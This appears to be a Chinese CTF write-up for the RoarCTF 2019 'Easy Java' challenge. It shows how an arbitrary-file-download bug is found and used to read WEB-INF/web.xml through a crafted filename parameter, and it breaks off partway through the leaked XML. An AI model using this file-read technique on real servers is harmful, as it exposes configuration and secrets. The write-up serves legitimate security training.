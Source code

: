 # Java

# Java

### ****[RoarCTF 2019]Easy Java****

试着登录一下，并没有注册的选项

![Untitled](Java%204f0ca325aad14fee945ebc69ca658159/Untitled.png)

下面的help点一下出现了报错`java.io.FileNotFoundException:{help.docx}`

![Untitled](Java%204f0ca325aad14fee945ebc69ca658159/Untitled%201.png)

java的web.xml泄露

post传参fliename=/WEB-INI/web.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">

    <welcome-file-list>
        <welcome-file>Index</welcome-file>
    </welcome-file-list>

    <servlet>
        <servlet-name>IndexController</servlet-name>
```